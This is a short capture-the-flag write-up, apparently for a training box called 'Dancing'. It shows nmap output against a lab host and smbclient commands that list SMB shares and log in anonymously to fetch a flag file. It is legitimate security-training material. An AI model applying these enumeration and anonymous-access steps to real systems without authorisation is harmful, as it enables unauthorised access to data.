 # Dancing

## Enumeration

### nmap

```
PORT    STATE SERVICE       REASON  VERSION
135/tcp open  msrpc         syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds? syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2021-10-27T18:08:09
|_  start_date: N/A
|_clock-skew: 4h12m16s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 28068/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 58368/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 13121/udp): CLEAN (Timeout)
|   Check 4 (port 41395/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

```

hmmm...dancing...samba...samba..dancing

### smbclient

Samba without password (unrealistic jokes 101)

```
$smbclient -L 10.129.143.2
Enter WORKGROUP\nair0lf32's password:

Sharename Type Comment

---

ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
WorkShares Disk
SMB1 disabled -- no workgroup available
```

At this point we know its about samba shares right?

Anonymous smb access

```
smbclient \\\\10.129.143.2\\WorkShares
Enter WORKGROUP\nair0lf32's password:
Try "help" to get a list of possible commands.
smb: \>
```

`get flag.txt` litterally!

worknotes.txt is not useful...it's just a to-do for the developer
